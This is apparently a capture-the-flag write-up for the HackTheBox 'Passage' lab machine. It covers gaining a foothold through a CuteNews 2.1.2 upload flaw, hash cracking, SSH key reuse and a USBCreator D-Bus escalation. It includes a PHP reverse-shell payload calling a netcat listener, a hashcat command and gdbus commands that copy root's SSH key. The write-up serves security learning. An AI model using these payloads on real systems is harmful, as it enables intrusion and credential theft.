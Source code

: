 ```yaml
---
title: "HackTheBox: Passage"
date: "2021-03-06"
author: frosty
categories:
  - "writeups"
tags:
  - "hackthebox"
---
```


![Image](assets/img/writeups/hackthebox/passage/image.png)

* * *

## Host Enumeration

As standard with HackTheBox, our approach is to identify services that are runnin gon the host. To do this, we'll perform a port scan with nmap, followed by a service version and script scans with the identified ports. We see that there are two ports open:

- 22: SSH (OpenSSH 7.2p2)
- 80: HTTP (Apache httpd 2.4.18 ((Ubuntu)))

![Image](assets/img/writeups/hackthebox/passage/image-1.png)

![Image](assets/img/writeups/hackthebox/passage/image-2.png)

* * *

### Enumeration - HTTP

Alright, let's jump right in to the HTTP server hosted on port 80. We see a news page, and some blog posts. The first one is interesting for us, it says that the administrator has implemented Fail2Ban. This means that it might be a bit tricky for us to perform enumeration scans, such as Gobuster.

But on the bottom of the page, we see a little note in the footer saying that the webserver is powered by [CuteNews](https://cutephp.com/).

![Image](assets/img/writeups/hackthebox/passage/image-3-1024x389.png)

Interestingly, when looking at the hyperlinks to the individual posts, we see that there is an id parameter to load content. e.g. `index.php?id=11`. This is a bit fishy, and to me seems like we might be able to get some LFI or SQL injection. Alas this was unsuccessful for me. We'll have to look at other paths.

![Image](assets/img/writeups/hackthebox/passage/image-4.png)

* * *

### CuteNews CMS

Anyways, perhaps we can try some other paths. With a little bit of luck and some educated guessing, we try to navigate to `10.10.10.206/CuteNews`. Nice! We get to see a login form. This might be the next step for us.

![Image](assets/img/writeups/hackthebox/passage/image-5.png)

We can either sign in with a valid account, or we can register. Let's try to register an account. I think that it is unlikely to brute force credentials because of the implemented Fail2Ban.

![Image](assets/img/writeups/hackthebox/passage/image-6.png)

Nice! it worked!

![Image](assets/img/writeups/hackthebox/passage/image-7-1024x453.png)

In the sign in form we already saw some nice information. We saw that it was version 2.1.2, and when performing a Google search we can find some exploits. We see that this version is vulnerable to **Remote Code Execution** ([RCE Exploit Here](https://www.exploit-db.com/exploits/48800)) as well as **Arbitrary File Upload** ([AFE Exploit Here](https://www.exploit-db.com/exploits/48458)) and unless the administrator has protected this vulnerability, we might be in with a chance here.

* * *

## Getting the Initial Shell

After a bit of exploit code review, and vulnerability research ([CVE](https://www.cvedetails.com/version/281289/Cutephp-Cutenews-2.1.2.html)), it seems that the exploit works by uploading a malicious file in place of your profile picture. With a bit of luck, we can get our shell soon. We'll try a manual method to see if we can understand what is happening under the hood of the exploits.

Let's try to use `exiftool` to place some PHP code in an image, which uses system calls for code execution. We verify with `strings` that the payload has been inserted to the image.

```sh
$ exiftool -Comment='<?php echo "<pre>"; system("rm -f /tmp/frosty; mknod /tmp/frosty p; /bin/sh 0</tmp/frosty | nc 10.10.14.111 1234 1>/tmp/frosty"); ?>' hack.png
```

![Image](assets/img/writeups/hackthebox/passage/image-8.png)

Alright, now it's time to upload the file, then we should hopefully get our shell.

![Image](assets/img/writeups/hackthebox/passage/image-9.png)

But wait! The next step is important. Intercept the POST request that you perform with "Save Changes" and then rename "hack.png" to "hack.php", in the highlighted location below. Also validate that you are uploading the correct malicious file by seeing your PHP code.

![Image](assets/img/writeups/hackthebox/passage/image-10-1024x651.png)

And hopefully it should work! I got a shell!

![Image](assets/img/writeups/hackthebox/passage/image-11.png)

Let's quickly [upgrade the tty shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

```sh
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Zsh
$ stty raw -echo; fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows 30 columns 90
```

* * *

## Privilege Escalation

Alright the next part is a bit strange. Remember how we just exploited CuteNews, and the CuteNews website said that there is no database required? How is this? You may be asking yourself where the user credentials are stored which enables us to login. Great question! Let's find out together.

Finding the file took a bit of "brute force" enumeration for me; i.e. I searched many files / directories manually, in pursuit of some interesting file. Alas we see an interesting file: `/var/www/html/CuteNews/cdata/users/lines`

![Image](assets/img/writeups/hackthebox/passage/image-13.png)

In there we see some passwords, stored as base64.

![Image](assets/img/writeups/hackthebox/passage/image-14.png)

So let's try to extract all the base64 entries, and see what they mean. The longer base64 entries could be the more interesting ones with more information. Let's try this theory:

It seems that it is a JSON object.

![Image](assets/img/writeups/hackthebox/passage/image-15-1024x131.png)

Alright, in here I think that we have a hash, but it looks pretty long. They are indeed SHA-256 so I suppose that they are pretty secure. Anyways, it's possible that these hashes have been cracked already, or we can try it ourselves quickly with rockyou.txt and hashcat

```sh
hashcat -m 1400 hashdump /usr/share/wordlists/rockyou.txt
```

![Image](assets/img/writeups/hackthebox/passage/image-16-1024x672.png)

It seems that only one of the hashes could be cracked. The plaintext is `atlanta1`. When mapping back to the JSON objects, we see it was for the Paul user.

Incidentally, when looking at the /home folder, we see that there are two users; one of which is Paul :) This is good news for us.

![Image](assets/img/writeups/hackthebox/passage/image-12.png)

![Image](assets/img/writeups/hackthebox/passage/image-17.png)

* * *

## Privilege Escalation 2

Alright, we aren't root yet. Let's try some quick manual enumeration before we load some privilege escalation scripts in. It could be that we could get the answer without having to wait for the script to finish.

So I perform `sudo -l` but we do not have privileges for that. Alright, so we try to check if there might be .ssh keys, and it seems that there are!

![Image](assets/img/writeups/hackthebox/passage/image-18.png)

![Image](assets/img/writeups/hackthebox/passage/image-19.png)

Alright let's inspect the id\_rsa and id\_rsa.pub keys.

![Image](assets/img/writeups/hackthebox/passage/image-20.png)

Hm, that's interesting. The id\_rsa.pub has `nadav@passage.htb` at the end of it. Could it be that the key is a shared key??? Let's try it quickly.

Wow it really worked!

![Image](assets/img/writeups/hackthebox/passage/image-21.png)

* * *

## Privilege Escalation 3

When performing the `id` command and observing it in the screenshot above, we actually see that there are a number of groups. Interestingly we are part of the sudo group, but we don't know Nadav's password so we likely can't exploit anything yet.

Let's try running [LinPeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) and see how far we get.

![Image](assets/img/writeups/hackthebox/passage/image-22.png)

In fact, the next step too me a bit of hunting. I don't think that LinPeas.SH showed the vulnerability. Eventually I went to inspect the `.viminfo` file. We see some interesting [USBCreator](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) things.

![Image](assets/img/writeups/hackthebox/passage/image-23.png)

Let's try to perform some exploit!

```sh
$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/exploit/a.txt /a.txt true
```

![Image](assets/img/writeups/hackthebox/passage/image-25-1024x145.png)

Nice! It worked. We wrote contents to /a.txt under root context.

The interesting thing is that we do not need root privilege to read the file - because of the 444 permissions. So let's try to copy the id\_rsa file of the root user

```
$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /home/nadav/exploit/id_rsa true
```

![Image](assets/img/writeups/hackthebox/passage/image-26-1024x554.png)

And we are root!
